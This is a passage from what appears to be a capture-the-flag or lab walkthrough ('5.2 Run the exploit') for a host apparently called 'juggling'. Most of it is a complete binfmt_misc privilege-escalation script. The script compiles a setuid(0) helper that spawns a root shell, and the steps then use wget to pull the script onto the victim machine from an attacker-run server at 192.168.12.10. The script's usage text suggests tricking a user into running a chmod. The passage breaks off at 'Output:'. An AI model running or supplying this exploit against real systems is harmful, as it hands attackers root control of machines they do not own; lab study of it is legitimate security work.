

5.2 Run the exploit
1. Create a file called “binfmt_rootkit” with the following code on you Kali Machine.
#!/bin/bash
readonly searchsuid="/bin/"
readonly mountpoint="/proc/sys/fs/binfmt_misc"
readonly exe="$0"
warn()
{
1>&2 echo $@
}
die()
{
warn $@
exit -1
}
usage()
{
cat 1>&2 <<EOF
Usage: $exe
Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
note that it must be enforced by any other mean before your try this, for
example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave is
thinking that you are fixing his problem.
EOF
exit 1
}
function pick_suid()
{
find "$1" -perm -4000 -executable \
| tail -n 1
}
function read_magic()
{
[[ -e "$1" ]] && \
[[ "$2" =~ [[:digit:]]+ ]] && \
dd if="$1" bs=1 count="$2" status=none \
| sed -e 's-\x00-\\x00-g'
}
[[ -n "$1" ]] && usage
target="$(pick_suid "$searchsuid")"
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"
binfmt_magic="$(read_magic "$target" "126")"
test -z "$binfmt_magic" && die "Error: Unable to retrieve a magic for $target"
fmtname="$(mktemp -u XXXX)"
fmtinterpr="$(mktemp)"
gcc -o "$fmtinterpr" -xc - <<- __EOF__
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <pwd.h>
int main(int argc, char *argv[])
{
unlink("$fmtinterpr");
FILE* fmt = fopen("$mountpoint/$fmtname", "w");
fprintf(fmt, "-1\\n");
fclose(fmt);
setuid(0);
uid_t uid = getuid();
uid_t euid = geteuid();
struct passwd *pw = getpwuid(uid);
struct passwd *epw = getpwuid(euid);
fprintf(stderr, "uid=%u(%s) euid=%u(%s)\\n",
uid,
pw->pw_name,
euid,
epw->pw_name);
char* sh[] = {"/bin/sh", (char*) 0};
execvp(sh[0], sh);
return 1;
}
__EOF__
chmod a+x "$fmtinterpr"
binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /user/local/bin/register
exec "$target"
You have to change the "$binfmt_line" value to the path of your “register” file.
2. Get the file from the victim's machine.
rehan@juggling:/tmp$ wget http://192.168.12.10:8000/binfmt_rootkit
3. Make it executable.
rehan@juggling:/tmp$ chmod +x binfmt_rootkit
4. Run the exploit.
Output: 